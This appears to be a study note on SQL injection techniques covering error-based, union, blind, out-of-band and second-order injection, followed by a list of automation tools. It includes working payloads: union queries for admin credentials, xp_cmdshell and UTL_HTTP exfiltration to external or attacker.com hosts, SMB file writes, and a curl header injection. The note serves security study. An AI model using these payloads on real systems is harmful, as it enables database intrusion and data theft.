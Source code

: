 ![[SQLi types.svg]]
#### In-band SQL Injection
- **Error-Based SQL Injection**: The attacker manipulates the SQL query to produce error messages from the database. These error messages often contain information about the database structure, which can be used to exploit the database further. Example: `SELECT * FROM users WHERE id = 1 AND 1=CONVERT(int, (SELECT @@version))`. If the database version is returned in the error message, it reveals information about the database.
- **Union-Based SQL Injection**: The attacker uses the UNION SQL operator to combine the results of two or more SELECT statements into a single result, thereby retrieving data from other tables. Example: `SELECT name, email FROM users WHERE id = 1 UNION ALL SELECT username, password FROM admin`.

#### Inferential (Blind) SQL Injection
- **Boolean-Based Blind SQL Injection**: The attacker sends an SQL query to the database, forcing the application to return a different result based on a true or false condition. By analysing the application’s response, the attacker can infer whether the payload was true or false. Example: `SELECT * FROM users WHERE id = 1 AND 1=1 (true condition) versus SELECT * FROM users WHERE id = 1 AND 1=2 (false condition)`. The attacker can infer the result if the page content or behaviour changes based on the condition.
- **Time-Based Blind SQL Injection**: The attacker sends an SQL query to the database, which delays the response for a specified time if the condition is true. By measuring the response time, the attacker can infer whether the condition is true or false. For example, `SELECT * FROM users WHERE id = 1; IF (1=1) WAITFOR DELAY '00:00:05'--`. If the response is delayed by 5 seconds, the attacker can infer that the condition was true.

####  Out-of-band SQL Injection
**MySQL and MariaDB**
In MySQL or MariaDB, Out-of-band SQL injection can be achieved using [SELECT ... INTO OUTFILE](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) or [load_file](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file) command. This command allows an attacker to write the results of a query to a file on the server's filesystem. For example:
 `SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';`
 
**Microsoft SQL Server (MSSQL)**
In MSSQL, Out-of-band SQL injection can be performed using features like [xp_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16), which allows the execution of shell commands directly from SQL queries. This can be leveraged to write data to a file accessible via a network share:
 `EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';`
Alternatively, `OPENROWSET` or `BULK INSERT` can be used to interact with external data sources, facilitating data exfiltration

**Oracle**  
In Oracle databases, Out-of-band SQL injection can be executed using the [UTL_HTTP](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_HTTP.html) or [UTL_FILE](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_FILE.html) packages. For instance, the UTL_HTTP package can be used to send HTTP requests with sensitive data:
 ```sql
DECLARE   
	req UTL_HTTP.REQ;   
	resp UTL_HTTP.RESP;
BEGIN   
	req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);   
	UTL_HTTP.GET_RESPONSE(req); 
END;
```

#### Examples of Out-of-band Techniques
**HTTP Requests** 
If configured or external scripts or User-Defined Functions.
`SELECT http_post('http://attacker.com/exfiltrate', sensitive_data) FROM books;`.
**DNS Exfiltration**
If configured or external scripts or User-Defined Functions.
Perform DNS lookup.
**SMB Exfiltration**
`SELECT sensitive_data INTO OUTFILE '\\\\attack-machine-ip-with-smb-server\\logs\\out.txt';`

**Important Consideration**
It is important to note that the MySQL system variable `secure_file_priv` may be set. When set, this variable contains a directory pathname, and MySQL will only allow files to be written to this specified directory. This security measure helps mitigate the risk of unauthorised file operations. 
- **When secure_file_priv is Set**: MySQL will restrict file operations such as **INTO OUTFILE** to the specified directory. This means attackers can only write files to this directory, limiting their ability to exfiltrate data to arbitrary locations.
- **When secure_file_priv is Empty**: If the `secure_file_priv` variable is empty, MySQL does not impose any directory restrictions, allowing files to be written to any directory accessible by the MySQL server process. This configuration poses a higher risk as it provides more flexibility for attackers.

#### Second-order SQL injection (stored)

###### Add SQL query to a HTTP header (e.g. `User-agent`) which a stored in `logs` table.
```shell
curl -H "User-Agent: ' UNION SELECT username, password FROM user; # " http://vuln-machine-ip/httpagent/
```

##### Store procedures

##### Inject into XML or JSON

##### Automation
- **[SQLMap](https://github.com/sqlmapproject/sqlmap)**: SQLMap is an open-source tool that automates the process of detecting and exploiting SQL Injection vulnerabilities in web applications. It supports a wide range of databases and provides extensive options for both identification and exploitation. You can learn more about the tool [here](https://tryhackme.com/r/room/sqlmap).
- **[SQLNinja](https://github.com/xxgrunge/sqlninja)**: SQLNinja is a tool specifically designed to exploit SQL Injection vulnerabilities in web applications that use Microsoft SQL Server as the backend database. It automates various stages of exploitation, including database fingerprinting and data extraction. 
- [**JSQL Injection**](https://github.com/ron190/jsql-injection): A Java library focused on detecting SQL injection vulnerabilities within Java applications. It supports various types of SQL Injection attacks and provides a range of options for extracting data and taking control of the database.
- **[BBQSQL](https://github.com/CiscoCXSecurity/bbqsql)**: BBQSQL is a Blind SQL Injection exploitation framework designed to be simple and highly effective for automated exploitation of Blind SQL Injection vulnerabilities.